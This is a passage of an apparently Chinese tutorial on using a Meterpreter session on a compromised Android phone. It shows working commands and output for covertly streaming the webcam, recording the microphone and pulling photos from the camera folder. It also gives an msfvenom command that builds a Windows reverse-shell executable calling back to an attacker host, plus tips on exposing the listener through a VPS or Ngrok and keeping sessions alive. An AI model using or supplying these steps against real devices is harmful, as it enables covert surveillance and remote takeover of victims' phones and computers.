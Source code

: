 ```
meterpreter > webcam_stream -d 3000 -i 2
[*] Starting...
[*] Preparing player...
[*] Opening player at: /Users/laibinzhi/BXVgcrka.html
[*] Streaming...
```
在电脑浏览器打开一个网页显示，如图
![image](http://lbz-blog.test.upcdn.net/post/%E6%9C%A8%E9%A9%AC-%E6%91%84%E5%83%8F.png)

##### 窃听

```
meterpreter > record_mic -d 10
[*] Starting...
[*] Stopped
Audio saved to: /Users/laibinzhi/jRKKqgWB.wav
```

同样在电脑桌面多了一个wav音频文件，为10秒钟的窃听数据。

##### 文件的上传和下载


```
meterpreter > search -d /storage/emulated/0/DCIM/Camera -f *.jpg
Found 7 results...
    /storage/emulated/0/DCIM/Camera/IMG_20191031_160023.jpg (5423142 bytes)
    /storage/emulated/0/DCIM/Camera/IMG_20191118_185509.jpg (5949546 bytes)
    /storage/emulated/0/DCIM/Camera/IMG_20191118_185524.jpg (5735779 bytes)
    /storage/emulated/0/DCIM/Camera/IMG_20200917_102718.jpg (8895869 bytes)
    /storage/emulated/0/DCIM/Camera/IMG_20200917_105937.jpg (4652128 bytes)
    /storage/emulated/0/DCIM/Camera/IMG_20200917_105941.jpg (4666146 bytes)
    /storage/emulated/0/DCIM/Camera/IMG_20200917_111307.jpg (4892873 bytes)
meterpreter >
```

通过search命令，获取手机的内容，比如图片
再通过download和upload命令，可以把手机上面的照片下载

### windows?

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.101  LPORT=5555 x > /Users/laibinzhi/Downloads/mua.exe
```

### 怎么外网访问监听？

1.使用vps转发来达到上线目的。

2.使用Ngrok等工具做内网穿透。

### 掉线问题

自写守护脚本，用shell运行。
